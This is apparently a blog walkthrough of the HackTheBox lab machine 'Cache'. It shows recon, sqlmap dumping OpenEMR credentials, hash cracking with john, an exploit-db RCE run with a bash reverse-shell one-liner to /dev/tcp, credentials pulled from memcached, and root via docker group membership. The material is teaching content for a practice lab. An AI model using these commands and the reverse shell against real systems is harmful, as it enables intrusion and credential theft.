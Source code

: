 ```yaml
---
title: hackthebox cache walkthrough
author: fasto
date: 2020-10-21 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
 Hey ,<br>cashe machine was released today  <br> it's my favorite machine created by ASHacker I am going to share a writeup for it ,the machine available at HackTheBox for penetration testing<br>
in user part we do some basic enumeration gives us a credential and also we got domain which vulnerable with sqlinjection and rce we dump credential with sqlmap and than use it for rce to get shell as www and then we find creds in memcached to got user,for privilege escalation we descoverd that the user is in the group docker we got root very easily
 
  <br> 

<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
---
We start with scan ports:

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```                                                                                                                                                      
From the result above we found two working ports , port 80 and port 22                                                                                   
lets start with port 80                                                                                                                                  
![Desktop View](/img/00.png)

we find login page i've tried sql injection in login form but it's failed because the website isn't affected
![Desktop View](/img/0.png)


<h4>Enumeration</h4>


so i run dirb

![Desktop View](/img/1.png)
i found two directory
javascript 
and 
jquery
when i opened jquery i found one file there functionality.js i got inside the file 
<br>password : H@v3_fun
<br>username : ash
we keep it in text and keep continue

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
looking for domain with ffuf

![Desktop View](/img/3.png)
We found domain named hms like you see in the screen
add the domain in /etc/hosts
```
10.10.10.188    hms.htb
```
we open the domain in the browser 
![Desktop View](/img/4.png)
then i discovered that the application running in this domain is vulnerable with sql injection
<br>
by some googling i found youtube video explaining the vulnerability 


<br>
```https://www.youtube.com/watch?v=DJSQ8Pk_7hc ```
<br>

We intercept with burp

![Desktop View](/img/5.png)

We save the request in file
![Desktop View](/img/6.png)

then we inject with sqlmap :
```sqlmap -r om.req  --dbs```
<br>om.req ---> the request we saved
<br>
\--dbs  ---> Enumerate databases

![Desktop View](/img/7.png)
<br>we found the name of database 
![Desktop View](/img/8.png)
<br>we need to enmerate the tables<br>
``` sqlmap -r login.req -D openemr --table ```
<br>-D      ---> name of database we want to enumrate 
<br>--table ---> Enumerate  tables
<br>we got all tables in openemr now we need to dump user and password from  users_secure<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
like you see we found a hashed password <br>
we need to crack the hash with john <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
and we got  the password xxxxxx Now we can login into openemr 
<br>and by some googling we find openemr it's also affected by rce (allow us to upload shell) 
<br>we download the script from exploit-db and run it
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```

<br> we get our reverse shell
<h4>Privilege Escalation</h4>
i run netstat command <br> ```netstat -plant```
<br>


![Desktop View](/img/14.png)


<br>and i notice the port 11211 is open in local this port of memcached service

<br>lets dump data from it 
<br>connect with telnet
```telnet localhost 11211```
<br>lets start first with STAT command to print all the general statistics of the server

<br>


```
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```



<br>
then:
<br>

stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
<br>
get user:

```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
<br>
get passwd
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>

![Desktop View](/img/15.png)

<br>we got user and password we connect with ssh
and we we figured out the user luffy is in doker group



we go to gtfobins 
<br>
```https://gtfobins.github.io/gtfobins/docker/```


<br>

![Desktop View](/img/16.png)

<br>

```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 
 
 ```
 
<br>![Desktop View](/img/17.png)
and we got root
